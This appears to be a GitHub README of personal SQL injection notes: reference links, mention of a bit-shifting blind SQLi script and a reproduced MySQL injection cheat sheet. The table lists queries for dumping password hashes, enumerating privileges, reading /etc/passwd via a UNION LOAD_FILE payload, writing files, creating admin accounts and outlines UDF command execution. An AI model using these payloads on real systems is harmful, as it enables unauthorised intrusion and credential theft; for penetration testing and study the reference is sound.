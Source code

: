 # Refs
https://portswigger.net/web-security/sql-injection/cheat-sheet

# Faster Blind MySQL Injection Using Bit Shifting
I've read the paper in https://www.exploit-db.com/papers/17073
and I've also developed a script to help us brute-force the data faster by using bit shifting method

The script's name "bit-shifting-sqli.py"
# My-SQL-Injection-things
#mysql #sql #injection
original: http://pentestmonkey.net/cheat-sheet/sql-injection/mysql-sql-injection-cheat-sheet


| Version                      | SELECT @@version                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                      |
|------------------------------|---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------|
| Comments                     | SELECT 1; #comment SELECT /*comment*/1;                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                               |
| Current User                 | SELECT user(); SELECT system_user();                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                  |
| List Users                   | SELECT user FROM mysql.user; — priv                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                   |
| List Password Hashes         | SELECT host, user, password FROM mysql.user; — priv                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                   |
| Password Cracker             | John the Ripper will crack MySQL password hashes.                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                     |
| List Privileges              | SELECT grantee, privilege_type, is_grantable FROM information_schema.user_privileges; — list user privsSELECT host, user, Select_priv, Insert_priv, Update_priv, Delete_priv, Create_priv, Drop_priv, Reload_priv, Shutdown_priv, Process_priv, File_priv, Grant_priv, References_priv, Index_priv, Alter_priv, Show_db_priv, Super_priv, Create_tmp_table_priv, Lock_tables_priv, Execute_priv, Repl_slave_priv, Repl_client_priv FROM mysql.user; — priv, list user privsSELECT grantee, table_schema, privilege_type FROM information_schema.schema_privileges; — list privs on databases (schemas)SELECT table_schema, table_name, column_name, privilege_type FROM information_schema.column_privileges; — list privs on columns |
| List DBA Accounts            | SELECT grantee, privilege_type, is_grantable FROM information_schema.user_privileges WHERE privilege_type = ‘SUPER’;SELECT host, user FROM mysql.user WHERE Super_priv = ‘Y’; # priv                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                  |
| Current Database             | SELECT database()                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                     |
| List Databases               | SELECT schema_name FROM information_schema.schemata; — for MySQL >= v5.0 SELECT distinct(db) FROM mysql.db — priv                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                     |
| List Columns                 | SELECT table_schema, table_name, column_name FROM information_schema.columns WHERE table_schema != ‘mysql’ AND table_schema != ‘information_schema’                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                   |
| List Tables                  | SELECT table_schema,table_name FROM information_schema.tables WHERE table_schema != ‘mysql’ AND table_schema != ‘information_schema’                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                  |
| Find Tables From Column Name | SELECT table_schema, table_name FROM information_schema.columns WHERE column_name = ‘username’; — find table which have a column called ‘username’                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                    |
| Select Nth Row               | SELECT host,user FROM user ORDER BY host LIMIT 1 OFFSET 0; # rows numbered from 0 SELECT host,user FROM user ORDER BY host LIMIT 1 OFFSET 1; # rows numbered from 0                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                   |
| Select Nth Char              | SELECT substr(‘abcd’, 3, 1); # returns c                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                              |
| Bitwise AND                  | SELECT 6 & 2; # returns 2 SELECT 6 & 1; # returns 0                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                   |
| ASCII Value -> Char          | SELECT char(65); # returns A                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                          |
| Char -> ASCII Value          | SELECT ascii(‘A’); # returns 65                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                       |
| Casting                      | SELECT cast(’1′ AS unsigned integer); SELECT cast(’123′ AS char);                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                     |
| String Concatenation         | SELECT CONCAT(‘A’,'B’); #returns AB SELECT CONCAT(‘A’,'B’,'C’); # returns ABC                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                         |
| If Statement                 | SELECT if(1=1,’foo’,'bar’); — returns ‘foo’                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                           |
| Case Statement               | SELECT CASE WHEN (1=1) THEN ‘A’ ELSE ‘B’ END; # returns A                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                             |
| Avoiding Quotes              | SELECT 0×414243; # returns ABC                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                        |
| Time Delay                   | SELECT BENCHMARK(1000000,MD5(‘A’)); SELECT SLEEP(5); # >= 5.0.12                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                      |
| Make DNS Requests            | Impossible?                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                           |
| Command Execution            | If mysqld (<5.0) is running as root AND you compromise a DBA account you can execute OS commands by uploading a shared object file into /usr/lib (or similar). The .so file should contain a User Defined Function (UDF).  raptor_udf.c explains exactly how you go about this. Remember to compile for the target architecture which may or may not be the same as your attack platform.                                                                                                                                                                                                                                                                                                                                             |
| Local File Access            | …’ UNION ALL SELECT LOAD_FILE(‘/etc/passwd’) — priv, can only read world-readable files. SELECT * FROM mytable INTO dumpfile ‘/tmp/somefile’; — priv, write to file system                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                            |
| Hostname, IP Address         | SELECT @@hostname;                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                    |
| Create Users                 | CREATE USER test1 IDENTIFIED BY ‘pass1′; — priv                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                       |
| Delete Users                 | DROP USER test1; — priv                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                               |
| Make User DBA                | GRANT ALL PRIVILEGES ON *.* TO test1@’%'; — priv                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                      |
| Location of DB files         | SELECT @@datadir;                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                     |
| Default/System Databases     | information_schema (>= mysql 5.0) mysql                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                               |
